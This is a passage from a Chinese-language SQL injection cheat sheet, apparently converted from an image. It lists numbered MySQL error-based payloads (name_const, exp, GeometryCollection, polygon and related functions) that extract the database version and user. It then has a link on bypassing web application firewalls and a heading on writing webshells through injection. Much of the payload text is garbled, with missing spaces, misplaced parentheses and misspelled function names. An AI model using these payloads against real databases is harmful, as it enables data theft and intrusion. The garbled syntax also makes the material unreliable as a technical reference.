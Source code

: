 ```
and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)
```

5、通过join报错,注入语句如下:

```
select * from(select * from mysql.user ajoin mysql.user b)c;
```

6、通过exp报错,注入语句如下:

```
and exp(~(select * from (select user () ) a) );
```

7、通过GeometryCollection()报错,注入语句如下:

```
and GeometryCollection(()select *from(select user () )a)b );
```

8、通过polygon ()报错,注入语句如下:

```
and polygon (()select * from(select user ())a)b );
```

9、通过multipoint ()报错,注入语句如下:

```
and multipoint (()select * from(select user() )a)b );
```

10、通过multlinestring ()报错,注入语句如下:

```
and multlinestring (()select * from(selectuser () )a)b );
```

11、通过multpolygon ()报错,注入语句如下:

```
and multpolygon (()select * from(selectuser () )a)b );
```

12、通过linestring ()报错,注入语句如下:

```
and linestring (()select * from(select user() )a)b );
```



## SQL绕过WAF思路

https://www.cnblogs.com/cute-puli/p/11146625.html



## SQL注入写webshell的几种方法
